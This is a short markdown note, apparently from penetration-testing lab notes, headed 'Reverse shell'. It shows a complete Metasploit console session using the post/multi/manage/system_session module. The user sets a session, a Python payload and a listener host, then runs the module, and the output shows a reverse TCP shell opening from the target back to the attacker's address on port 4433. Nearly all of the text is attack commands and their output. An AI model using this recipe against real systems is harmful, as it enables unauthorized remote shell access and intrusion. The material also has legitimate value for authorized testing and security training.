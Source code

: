 ## Reverse shell

https://www.rapid7.com/db/modules/post/multi/manage/system_session/

> This module will create a Reverse TCP Shell on the target system using the system's own scripting environments installed on the target. 

```
msf5 post(multi/manage/system_session) > options

Module options (post/multi/manage/system_session):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  false            yes       Start an exploit/multi/handler to receive the connection
   LHOST                     yes       IP of host that will receive the connection from the payload.
   LPORT    4433             no        Port for Payload to connect to.
   SESSION                   yes       The session to run this module on.
   TYPE     auto             yes       Scripting environment on target to use for reverse shell (Accepted: auto, ruby, python, perl, bash)

msf5 post(multi/manage/system_session) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/system_session) > set TYPE python
TYPE => python
msf5 post(multi/manage/system_session) > set HANDLER true
HANDLER => true
msf5 post(multi/manage/system_session) > set LHOST 192.30.131.2
LHOST => 192.30.131.2
msf5 post(multi/manage/system_session) > run

[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.30.131.2:4433 
[*] Python reverse shell selected
[*] Executing reverse tcp shell to 192.30.131.2 on port 4433
[*] Post module execution completed
msf5 post(multi/manage/system_session) > [*] Command shell session 2 opened (192.30.131.2:4433 -> 192.30.131.3:60458) at 2021-05-01 23:55:44 +0000

msf5 post(multi/manage/system_session) > sessions

Active sessions
===============

  Id  Name  Type             Information                                             Connection
  --  ----  ----             -----------                                             ----------
  1         shell cmd/unix                                                           192.30.131.2:44305 -> 192.30.131.3:445 (192.30.131.3)
  2         shell sparc/bsd  /bin/sh: 0: can't access tty; job control turned off #  192.30.131.2:4433 -> 192.30.131.3:60458 (192.30.131.3)
```

